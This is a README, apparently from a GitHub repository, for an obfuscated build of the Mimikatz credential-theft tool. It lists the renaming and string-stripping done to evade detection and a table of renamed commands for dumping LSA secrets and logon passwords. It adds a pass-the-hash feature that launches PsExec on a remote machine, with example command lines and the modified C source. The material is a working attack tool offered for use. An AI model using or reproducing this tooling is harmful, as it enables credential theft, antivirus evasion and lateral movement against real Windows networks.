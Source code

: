 # Updates to the Mimikatz bin

The original mimikatz version used can be found at: https://github.com/gentilkiwi/mimikatz

Modifications:
* Mimikatz was renamed to DvKGMmGn.exe
* Renamed all common files/functions.
* Removed descriptive strings, and other strings as seen.
* Stripped out unused functionality
* Changed icon

## Command Changes

* `privilege::debug` is now  `pr::d`
* `sekurlsa` - `slsa`
* `lsadump` - `lsdu`
* `logonpasswords` - `lop`
* `privilege` - `pr`
* `token` - `mrio`
* `elevate` - `1up`
* pass the hash is now called with `slsa::htp`
* logonpasswords is called with `slsa::lop`
* lsadump::lsa is now `lsdu::go`  (`/inject` is now `/ynot`) (`/patch` is now `/pooch`)
* `exit` was changed to `quit`

## Custom PSExec Commands
* Adding `/remotepc:<pcname>` to pass-the-hash is the first argument to initiate psexec and is always required. (you 
do not need to add backslashes `\\`)
* The path to psexec is always required: `/pexe:C:\Path\to\PSExec.exe`
* If you want to execute psexec's `-c` command then you use: `/prun:c:\path\to\executable.exe`
* Output console text to a file: `/out:C:\outfile.txt` (adds `> c:\outfile.txt` to the psexec command)
* Use `/sys:1` to add psexec `-s` (run as system).

Full mimikatz command executing psexec -c:
```
.\mimikatz.exe "slsa::htp /user:sbusby /ntlm:xxx /domain:. /remotepc:1.2.3.4 /pexe:C:\psexec.exe /sys:1 /prun:C:\Windows\System32\calc.exe /out:C:\outfile.txt" "quit" 
```

Resulting command created/executed by mimikatz:
```
C:\psexec.exe \\1.2.3.4 -accepteula -s -c C:\Windows\System32\calc.exe > C:\outfile.txt
```

##### Executing example commands:
Executing an LSA Dump:
`mimikatz.exe "privilege::d lsdu::go /ynot"`


## Adjustments made to mimikatz PTH function

The pass-the-hash function was modified to accept additional arguments since
mimikatz PTH did not allow for arguments as a part of the PTH command.

```
NTSTATUS kuhl_m_sekurlsa_pth(int argc, wchar_t * argv[])
{
	BYTE ntlm[LM_NTLM_HASH_LENGTH], aes128key[AES_128_KEY_LENGTH], aes256key[AES_256_KEY_LENGTH];
	TOKEN_STATISTICS tokenStats;
	SEKURLSA_PTH_DATA data = {&tokenStats.AuthenticationId, NULL, NULL, NULL, FALSE};
	PWCHAR szUser, szDomain, szRun, szNTLM, szAes128, szAes256, szLuid, szRemotePC, szpsSys, szpsPath, szpsRunPath, szOutPath, szpsCopyRunPath = NULL;
	DWORD dwNeededSize;
	HANDLE hToken, hNewToken;
	PROCESS_INFORMATION processInfos;
	BOOL isImpersonate;
	WCHAR result[1024];   // array to hold the result.
	PCWCHAR dblBack = L"\\\\";
	PCWCHAR space = L" ";

	if(kull_m_string_args_byName(argc, argv, L"luid", &szLuid, NULL))
	{
		tokenStats.AuthenticationId.HighPart = 0; // because I never saw it != 0
		tokenStats.AuthenticationId.LowPart = wcstoul(szLuid, NULL, 0);
	}
	else
	{
		if(kull_m_string_args_byName(argc, argv, L"user", &szUser, NULL))
		{
			if(kull_m_string_args_byName(argc, argv, L"domain", &szDomain, NULL))
			{
				isImpersonate = kull_m_string_args_byName(argc, argv, L"impersonate", NULL, NULL);
#pragma warning(push)
#pragma warning(disable:4996)

				if (kull_m_string_args_byName(argc, argv, L"pexe", &szpsPath, NULL)) //psexec path
				{
					if (kull_m_string_args_byName(argc, argv, L"remotepc", &szRemotePC, NULL)) //remote pc path
					{
						if (kull_m_string_args_byName(argc, argv, L"prun", &szpsRunPath, NULL)) //file to execute
						{
							PCWCHAR cmd2 = L" -accepteula -c ";

							wcscpy(result, szpsPath); // copy string one into the result.
							wcscat(result, space);  // space
							wcscat(result, dblBack);  // append string two to the result.
							wcscat(result, szRemotePC);
							if (kull_m_string_args_byName(argc, argv, L"sys", &szpsSys, NULL)) //-s (system)
							{
								wcscat(result, L" -s ");
							}
							wcscat(result, cmd2);
							wcscat(result, szpsRunPath);

							if (kull_m_string_args_byName(argc, argv, L"out", &szOutPath, NULL)) //output to file
							{
								PCWCHAR fmt = L" > ";
								wcscat(result, fmt);
								wcscat(result, szOutPath);
							}
							kull_m_string_args_byName(argc, argv, L"zz", &szRun, isImpersonate ? _wpgmptr : result);
						}
					}
				}
				else
				{
					kull_m_string_args_byName(argc, argv, L"run", &szRun, isImpersonate ? _wpgmptr : L"cmd.exe");
				}

```